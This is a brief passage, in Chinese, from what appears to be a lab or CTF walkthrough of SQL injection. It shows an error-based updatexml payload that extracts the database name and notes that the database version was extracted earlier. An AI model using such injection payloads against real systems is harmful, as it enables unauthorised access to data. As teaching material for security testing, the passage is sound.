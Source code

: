 可以发现注入出了数据库版本。

注入`' or updatexml(0,concat(0x2b5e,database()),0),",")#`

![image-20220219230153742](../../images/image-20220219230153742.png)

可以发现注入出数据库名。
